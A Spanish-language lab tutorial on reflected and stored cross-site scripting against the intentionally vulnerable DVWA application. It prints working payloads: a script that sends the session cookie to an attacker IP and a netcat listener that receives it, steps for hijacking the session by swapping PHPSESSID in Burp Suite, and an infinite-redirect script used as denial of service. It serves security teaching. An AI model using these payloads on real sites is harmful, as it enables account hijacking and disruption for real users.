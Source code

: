 # Empecemos con las pruebas  XSS


Muy bien para empezar necesitaremos tener la maquina de DWWA abierta. prodemos tener la maquina atraves de  tryhackme o por docker.

Vamos a iniciar por XSS reflect, acordarse que en la maquina de DWWA de poner el modo de seguridad en nivel low para que funcione las pruebas que vamos a hacer.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled.png)

Luego nos iremos al apartado XSS Reflected, aqui haremos primero una prueba muy simple.

 

```bash
<script>alert ("hola soy un ataque xss") </script> 
```

Si lo ponemos en el cuador de texto de “what`s your name?” vamos a ver que ocurre.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%201.png)

Como podemos ver nos suelta, una alerta que nos da el código que hemos introducido.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%202.png)

También podemos hacerlo un poco mas interesante por ejemplo que nos saque la IP del servidor.

```bash
<script>alert(document.domain)</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%203.png)

Con esto el atacante también podría hacer un ataque directamente a la ip del servidor.

Vamos a hacerlo aun mucho mas interesante porque vamos a coger de una forma “prestada” una cookie de sesión.

vamos a utilizar este codigo.

Este código lo que hace es que estamos utilizando código javascrit, y que le estamos creando un nuevo  objeto de la clase image, luego esta imagen con la propiedad src apunta a la URL especifica que incluye a donde le vamos a querer que envié la cookie y lo que queremos enviar que es la cookie de sesión que se aloja en document.cookie

```bash
<script>new Image().src="http://192.168.1.155/bogus.php?output="+document.cookie;</script>   
```

Acordarse cambiar la ip por la maquina de vuestro kali, y poner el kali en modo bridge.

ahora vamos a dejar nuestro kali preparado y levantado para que empiece a escuchar y nos llegue la cookie de sesión.

para dejarlo en modo escucha, en una terminal ponemos 

```bash
nc -vnlp 80
```

y una vez alguien le de click a la url o le demos al boton submit enviara la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%204.png)

Una vez esto abriremos nuestro burpsuite. abriremos nuestro burpsuite para poder interceptar las peticiones de nuestro navegador al servidor y viceversa y poder llegar a modificar la cookie. esto lo que hará es que podamos tener acceso a la pagina de DVWA sin haber iniciado sesión.

 Pondremos el burpsuite a interceptar paquetes dandole a la opcion “intercept is on”

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%205.png)

Como podemos ver en esta imagen no estoy logueado en ningún momento en DVWA

Ahora si nosotros escribimos y queremos que nos redirija a esa url que existe de la maquina.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%206.png)

el burpsuite nos saltara 

y debemos de modificar el apartado de la cookie por la nueva cookie

Antigua

---

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%207.png)

Nueva

---

Solo cambiamos el PHPSESSID= ques donde va a ir la cookie.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%208.png)

esto para guion

listo ya tendríamos acceso si haber logueado sesión anteriormente

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%209.png)

Al Obtener la cookie de sesión el atacante.

Bueno ya que creo que con esto os a picado la curiosidad vamos a pasar al XSS stored el almacenado, no tiene mucho misterio ya que lo que ocurre es que el código malicioso se quedaría guardado en el servidor es decir que cada vez que se vuelva a recargar la pagina se va a ejecutar y quien intente acceder a esa pagina también va a ejecutar el código malicioso.

 Asi que nos vamos al apartado de XSS Stored 

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2010.png)

Recordad que si por algun casual en DVWA no os deja escribir muchas letras, en inspeccionar elemento se puede cambiar la longitud máxima de caracteres.

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2011.png)

Volviendo al XSS stored el codigo practicamente es el mismo que el XSS reflect solo que de por si se guarda. para hacer que cada vez que una persona que recargue la pagina le salga un alert.

```bash
<script>alert("hola esto es un xss stored")</script>
```

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2012.png)

ahora la cosa esque esto se va a repetir continuamente cada vez que se recargue la pagina.

igual que anteriormente con xss reflect podemos tambien que renvie cookie de sesión pero lo que vamos a hacer es imaginar que el atacante quiere denegar el servicio a esta pagina. una de las formas para hacer esto podria ser con este codigo malicioso

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Como veis nos sigue redirigiendo a mi sitio [malicioso.com](http://malicioso.com) 🙂

![Untitled](/img/xss/Empecemos%20con%20las%20pruebas%20XSS%20b48350b9fcd2416eab21cfe1b29a4529/Untitled%2013.png)

ya lo demas es exactamente igual que el XSS reflect

